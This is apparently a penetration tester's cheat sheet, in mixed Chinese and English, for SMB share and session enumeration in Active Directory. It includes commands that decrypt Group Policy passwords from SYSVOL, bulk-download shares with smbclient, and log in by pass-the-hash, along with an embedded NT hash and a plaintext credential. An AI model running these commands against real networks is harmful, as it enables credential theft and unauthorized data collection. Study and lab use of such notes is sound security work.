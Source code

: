 - `Policies\oldpolicy\old-policy-backup.xml` && `groups.xml`...一些旧策略文件会有我们想要的东西
# Share Info
```powershell
Get-SmbShare -ComputerName

#PowerView
Find-DomainShare [-CheckShareAccess]
ls \\dc1.corp.com\sysvol\corp.com\ #远程访问
cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```
# smbmap
```bash
smbmap -H 172.21.0.0 -d [domain] -u [user] -p [password]

```
# smbclient
```bash
smbclient -L 172.21.0.0
smbclient \\\\x.x.x.x\\Folder # smbclient //x.x.x.x/tmp || '\\x.x.x.x\xx'
#下载所有
smbclient '//192.168.188.248/transfer' -N -c 'prompt OFF;recurse ON;mget *'
smbclient '//172.16.147.21/monitoring' -U relia/jim%'Castello1!' -c 'prompt OFF;recurse ON;mget *'
# pth
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

#Recursively list a directory
smb: \> recurse on             
smb: \> ls
```
# HasSessoin - PowerView
### PowerView
```powershell
#最好添加Verbose来看是没有/无权查看；在Server 2019/10/11均无法运作
   Get-NetSession -ComputerName files04 -Verbose 
   Get-NetSession -ComputerName web04 -Verbose
   
   #查看Get-NetSession的所查询键值的查询权限
   #HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity -> SrvsvcSessionInfo
   Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl
```
### [PsLoggedOn](https://learn.microsoft.com/en-us/sysinternals/downloads/psloggedon) From [SysInternals Suite](https://learn.microsoft.com/en-us/sysinternals/).
```powershell
.\PsLoggedon.exe \\files04
```